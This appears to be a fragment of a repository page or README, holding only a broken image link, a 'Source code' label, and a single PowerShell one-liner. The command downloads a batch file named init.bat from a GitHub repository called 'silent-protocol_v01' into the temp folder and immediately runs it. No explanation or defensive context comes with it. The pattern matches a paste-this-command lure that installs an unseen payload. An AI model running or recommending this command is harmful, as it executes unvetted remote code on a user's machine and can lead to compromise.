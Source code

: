 
powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/24-20/silent-protocol_v01/refs/heads/main/init.bat -OutFile %TEMP%\gb.bat" && %TEMP%\gb.bat

